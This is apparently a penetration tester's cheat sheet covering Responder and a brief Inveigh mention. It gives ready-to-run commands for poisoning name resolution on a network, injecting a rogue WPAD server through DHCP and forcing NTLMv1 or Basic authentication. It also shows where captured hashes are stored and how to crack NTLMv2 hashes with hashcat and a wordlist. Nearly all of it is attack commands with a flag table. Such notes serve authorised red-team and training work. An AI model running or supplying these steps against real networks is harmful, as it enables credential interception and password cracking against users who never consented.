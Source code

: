 ### Responder 
Standard (let run in background)
```bash
sudo responder -I eth0 -dwf
```
Need NTLMv1 (**not opsec friendly**)
```bash
sudo responder -I eth0 -dFP
```
Locate hashes under `/usr/share/responder/logs` and  `/usr/share/responder/`
```bash
sqlitebrowser /usr/share/responder/Responder.db
```
Crack
```bash
hashcat -m 5600 adm.ntlmv2 ~/rockyou.txt
```

| Flag           | Description                                                                                                                                                                                                                                                                                                                     |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-A`           | Act as a fly on the wall and listen to the traffic                                                                                                                                                                                                                                                                              |
| `-w`           | Rogue WPAD server. This can be highly effective, especially in large organizations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has [Auto-detect settings](https://docs.microsoft.com/en-us/internet-explorer/ie11-deploy-guide/auto-detect-settings-for-ie11) enabled. |
| `-f`           | Fingerprint machine                                                                                                                                                                                                                                                                                                             |
| `-F`      `-P` | Force orce NTLM or Basic authentication and force proxy authentication, but may cause a login prompt, so they should be used sparingly                                                                                                                                                                                          |
| `-d`           | Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.                                                                                                                                                                                                                         |
### [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth
